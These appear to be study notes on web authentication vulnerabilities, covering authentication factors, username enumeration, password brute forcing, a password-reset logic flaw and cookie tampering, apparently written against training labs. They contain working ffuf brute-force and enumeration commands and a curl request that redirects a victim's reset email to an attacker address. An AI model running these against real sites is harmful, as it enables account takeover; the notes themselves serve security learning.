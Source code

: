 ```yaml
---
title: Authentication
sidebar_position: 1
description: Authentication vulnerability notes.
---
```


## Introduction
- Authentication is the process of verifying the identity of the user or client.
- There are three types of Authentication
  - **Something you know** (Passwords, Security questions, etc). Also called **knowledge** factors.
  - **Something you have** (Mobile phone, security token, etc). Also called **possession** factors.
  - **Something you are** (Biometrics). Also called **inherence** factors.

## Authentication vs Authorization
- **Authentication** is the process of verifying that a user is **who they claim to be**. 
- **Authorization** involves verifying whether a user is **allowed to do something**. 

## Why Authentication Vulnerabilities Arise
- Most authentication vulnerabilities arise due to one of the following two ways
  - Authentication mechanisms are weak and doesn't provide protection against **bruteforcing**.
  - Logic flaws or poor coding due to which authentication can be **bypassed entirely**.

## Impact of Authentication Vulnerabilities
- Impact is often high or critical due to the fact that the account can be took over by the attacker.
- If the account is high privileged then the whole application can be compromised.


## Vulnerabilities in Password-Based login

### Bruteforce Attacks
- Usernames can be bruteforced on the following conditions.
  - If they conform to a specific pattern such as `firstname.lastname@companyname.com`.
  - If the usernames are predictable such as `admin` or `administrator`.
- Passwords can similarly be brute-forced, with the difficulty varying based on the strength of the password. 
- Users often take a password that they can remember and try to crowbar it into fitting the password policy. 
- For example, if `mypassword` is not allowed, users may try something like `Mypassword1!` or `Myp4$$w0rd` instead. 


#### Username Enumeration
- Username enumeration is when an attacker is able to **observe changes** in the website's behavior in order to identify whether a given username is valid.
- Username enumeration typically occurs either on the **login page**.
- For example, when you enter a **valid username but an incorrect password**, or on registration forms when you enter a **username that is already taken**.
- Look for changes in the following areas to identify the usernames.
  - Status codes
  - Response text
  - Error messages
  - Response time
- Enumerate usernames with ffuf using the below command.
    ```
    ffuf -X POST -w usernames.txt:FUZZ -d "username=FUZZ&password=test" -u https://0a2300d70345a82482604224009f00ea.web-security-academy.net/login -H "Host:0a2300d70345a82482604224009f00ea.web-security-academy.net" -fr "Invalid username"
    ```

#### Enumerate Passwords
- Enumerate passwords with ffuf using the below command.
    ```
    ffuf -X POST -w passwords.txt:FUZZ -d "username=af&password=FUZZ" -u https://0a2300d70345a82482604224009f00ea.web-security-academy.net/login -H "Host:0a2300d70345a82482604224009f00ea.web-security-academy.net" -fc 200
    ```

- Support website: http://10.10.129.12/customers/signup/
    ```
    ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.129.12/customers/signup -mr "username already exists"
    ```

#### Bruteforce Password
- Use the identified usernames and attempt to find the passwords.
- If you created your valid_usernames file by piping the output from ffuf directly you may have difficulty with this task. Clean your data, or copy just the names into a new file.
    ```
    ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.129.12/customers/login -fc 200
    ```
- Bruteforce individual usernames.
    ```
    ffuf -w /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W1 -X POST -d "username=<USERNAME>&password=W1" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.129.12/customers/login -fc 200
    ```

### Logic Flaws
- Password reset request looks like below.
    ```
    curl 'http://10.10.129.12/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
    ```
- Create an account with email id `attacker@hacker.com` and update the curl request like below.
    ```
    curl 'http://10.10.129.12/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
    ```

#### Cookie Tampering
- Cookies are set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges.
- Some of the examples of cookies set after successful login are
  - `Set-Cookie: logged_in=true; Max-Age=3600; Path=/`
  - `Set-Cookie: admin=false; Max-Age=3600; Path=/`
  - `Set-Cookie: session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==; Max-Age=3600; Path=/`
- `eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==` - base64 decoded has the value of `{"id":1,"admin": false}`